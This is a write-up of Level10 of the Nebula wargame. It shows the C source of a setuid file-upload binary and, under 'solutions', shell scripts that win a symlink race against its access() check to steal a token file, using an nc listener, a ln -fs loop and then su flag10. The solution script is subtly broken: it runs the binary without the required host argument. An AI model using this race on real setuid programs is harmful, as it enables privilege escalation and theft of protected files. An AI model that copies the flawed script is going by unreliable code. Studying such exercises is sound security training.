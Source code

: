 # Level10

#### About

The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.  
To do this level, log in as the level10 account with the password level10. Files for this level can be found in /home/flag10. 


#### Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
	char *file;
	char *host;

	if(argc < 3) {
		printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
		exit(1);
	}

	file = argv[1];
	host = argv[2];

	if(access(argv[1], R_OK) == 0) {
		int fd;
		int ffd;
		int rc;
		struct sockaddr_in sin;
		char buffer[4096];

		printf("Connecting to %s:18211 .. ", host); fflush(stdout);

		fd = socket(AF_INET, SOCK_STREAM, 0);

		memset(&sin, 0, sizeof(struct sockaddr_in));
		sin.sin_family = AF_INET;
		sin.sin_addr.s_addr = inet_addr(host);
		sin.sin_port = htons(18211);

		if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
			printf("Unable to connect to host %s\n", host);
			exit(EXIT_FAILURE);
		}

#define HITHERE ".oO Oo.\n"
		if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
			printf("Unable to write banner to host %s\n", host);
			exit(EXIT_FAILURE);
		}
#undef HITHERE

		printf("Connected!\nSending file .. "); fflush(stdout);

		ffd = open(file, O_RDONLY);
		if(ffd == -1) {
			printf("Damn. Unable to open file\n");
			exit(EXIT_FAILURE);
		}

		rc = read(ffd, buffer, sizeof(buffer));
		if(rc == -1) {
			printf("Unable to read from file: %s\n", strerror(errno));
			exit(EXIT_FAILURE);
		}

		write(fd, buffer, rc);

		printf("wrote file!\n");

	} else {
		printf("You don't have access to %s\n", file);
	}
}
```


#### solutions

```
echo aaaaaaaa>/tmp/token
nc -kl 18211
```

* ---- /tmp/create_link.sh ----
```
#!/bin/bash
while true
do
    ln -fs /tmp/token /tmp/lv10_token
    ln -fs /home/flag10/token /tmp/lv10_token 
done
```

* ----/tmp/connect.sh ----
```
#!/bin/bash
while true
do
    /home/flag10/flag10 /tmp/lv10_token
done

su flag10
/bin/getflag
```


#### Recommend

http://cybergibbons.com/security-2/nebula-walkthrough/nebula-exploit-exercises-walkthrough-level10/
